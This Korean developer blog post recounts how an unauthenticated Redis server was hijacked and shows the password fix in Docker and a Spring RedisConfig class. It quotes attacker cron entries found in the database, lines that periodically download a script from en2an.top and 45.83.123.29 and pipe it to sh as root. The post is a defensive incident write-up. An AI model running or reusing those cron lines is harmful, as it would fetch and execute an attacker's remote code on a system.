 ---
date: 2023-03-9
title: "TTL 설정 없이도 Redis 저장 내용이 사라진다면"
category :
  - Java & Spring
permalink: /java-spring/TTL 설정 없이도 Redis 저장 내용이 사라진다면/

toc: true
toc_sticky: true
---<p><img alt="" src="https://velog.velcdn.com/images/kny8092/post/1ab5e216-20ad-43cc-92f4-183e13d10b42/image.png" /></p>
<p>분명히 로컬에서 Test 했을 때는 정상적으로 동작했고, 배포 된 서버에 요청을 보냈을 때 Redis에 원하는 값이 저장되는 것을 확인했다.
그런데.. 몇 시간뒤나 다음날 다시 테스트하려고 하면 자꾸 캐싱해둔 내용이 사라져있다...
초면인 backup1 ~ backup4가 있다...
혹시 redis 비밀번호를 따로 설정하지 않았다면</p>
<blockquote>
<p>누군가 내 작고 소중한 Redis를 몰래 쓰고있다.</p>
</blockquote>
<p>이전에 부스트캠프 프로젝트를 하면서 다른 조에서 해킹을 당했었다는 내용을 공유받은 적이 있었는데, 그 당시에는 Redis 사용을 고려하지 않았고 우리 프로젝트는 github star도 많지 않으니 해킹을 당하겠어? 라는 아주 안일한 생각을 하고 있었다.</p>
<p>처음에는 TTL설정 문제인줄 알고 Redis default TTL을 계속 찾아봤다.
하지만 관련 문제는 아니였다.</p>
<p>다음에 했던 것이 Redis에 어떤 command가 날라왔는지 조사를 했는데, 엄청 많은 요청이 계속 들어오고 있었다.</p>
<pre><code class="language-shell">&gt; redis-cli
&gt; monitor</code></pre>
<img height="50%" src="https://velog.velcdn.com/images/kny8092/post/309d8b55-3815-4705-8cc0-60001ba94c5f/image.png" />


<p>그제서야 전에 해킹관련 이야기를 들었던 것이 생각이 났고, 찾아보기 시작했다.
(이후에 알았지만 저 명령들은 내 Redis Explorer에서 요청보낸 것..)</p>
<h3 id="누구세요">누구세요</h3>
<p>backup에 적힌 내용을 가만히 살펴보니 다음과 같았다.</p>
<pre><code class="language-shell">*/2 * * * * root cd1 -fsSL http://en2an.top/cleanfda/init.sh | sh
*/3 * * * * root wget -q -O- http://en2an.top/cleanfda/init.sh | sh
*/4 * * * * root curl -fsSL http://45.83.123.29/cleanfda/init.sh | sh
*/5 * * * * root wd1 -q -O- http://45.83.123.29/cleanfda/init.sh | sh</code></pre>
<p>주기적으로 스크립트를 다운받아 실행 시키고 있었다.</p>
<p><img alt="" src="https://velog.velcdn.com/images/kny8092/post/cc49ce32-5227-4e5a-a356-a76687adc4e9/image.png" /></p>
<p>ip를 찾아봤을 때 우리나라는 아니였다.. 저 sh을 받아보고 싶었지만, 무슨 위험이 있을지 몰라서 빤히 쳐다보는 일 밖에 할 수 없다...;;</p>
<h3 id="외양간-고치기">외양간 고치기</h3>
<p>비밀번호는 다음 명령으로 설정 가능하다.</p>
<pre><code class="language-shell"># docker container 실행 시 설정
$ docker run --name redis -p 6379:6379 -d redis --requirepass {password}

# docker 내부 접속하여 redis cli 명령을 사용하고 싶을 때
$ docker exec -it redis redis-cli -a {password}</code></pre>
<pre><code class="language-java">
@Configuration
public class RedisConfig {

    @Value("${spring.redis.host}")
    private String host;

    @Value("${spring.redis.port}")
    private Integer port;

    @Value("${spring.redis.password}")
    private String password; # 비밀번호 설정 추가

    @Bean
    public RedisConnectionFactory redisConnectionFactory() {
        RedisStandaloneConfiguration redisStandaloneConfiguration = new RedisStandaloneConfiguration();
        redisStandaloneConfiguration.setHostName(host);
        redisStandaloneConfiguration.setPort(port);
        redisStandaloneConfiguration.setPassword(password);
        LettuceConnectionFactory lettuceConnectionFactory = new LettuceConnectionFactory(redisStandaloneConfiguration);
        return lettuceConnectionFactory;
    }
}
</code></pre>
<h3 id="교훈">교훈</h3>
<p>서버 환경에 배포 시에는 password 설정과 port 허용에 신경쓰자!</p>
<hr />
<p>참고
<a href="https://gofnrk.tistory.com/84">https://gofnrk.tistory.com/84</a>
<a href="http://redisgate.kr/redis/education/redis_hacking.php">http://redisgate.kr/redis/education/redis_hacking.php</a></p>